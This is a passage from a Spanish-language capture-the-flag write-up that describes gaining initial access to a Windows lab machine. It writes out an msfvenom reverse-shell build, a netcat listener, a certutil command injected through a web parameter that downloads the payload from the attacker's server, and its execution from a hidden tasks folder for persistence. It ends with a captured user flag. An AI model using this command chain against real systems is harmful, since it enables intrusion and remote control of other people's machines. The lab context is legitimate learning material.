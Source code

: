 ![cmd-dir|650](/imgs/009-w-2.png)
# Acceso

1. Vamos a crearnos una reverse shell, con msfvenom, para ejecutarla con ese mismo método que ejecuto los comandos. Utilizo esto, aunque podría subir un *nc.exe* pero en muchos sistemas windows el *nc.exe* no me funciona, este método es más fiable.

```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.141 LPORT=8888 -f exe --encoder x64/xor_dynamic --out toxic.exe
```

2. Pongo un netcat a escuchar en ese puerto

```zsh
nc -lvnp 8888
```

3. Y subo la reverse shell con *certutil*

```zsh
\access.log&cmd=certutil -urlcache -split -f http://192.168.0.141:80/toxic.exe c:\windows\tasks\rev.exe
```

Explicación del comando:
* -urlcache, permite descargar un fichero desde una url
* -split divide la transferencia en fragmentos, permitiendo manejar archivos más grandes
* -f, fuerza la descargar del archivo, incluso si existe localmente o si surgen problemas
* El servidor web donde está el fichero que voy a descargar. Lo puedo montar con python para esa tarea

```zsh
sudo python3 -m http.server 80
```

![cmd-dir|650](/imgs/009-w-3.png)

* [...]\rev.exe, es el destino donde lo voy a guardar. Es un sitio poco visible para usuarios comunes. Además puedo ganar persistencia porque podría configurarse como tarea programada.

4. Ejecuto el payload que he subido

```zsh
=c:\windows\tasks\rev.exe
```

He logrado acceder

![cmd-dir|650](/imgs/009-w-4.png)

Y con este usuario puedo obtener la primera bandera

```zsh
c:\Users\websvc\Desktop>type user.txt
type user.txt
4159a2b3a38697518722695cbb09ee46
```
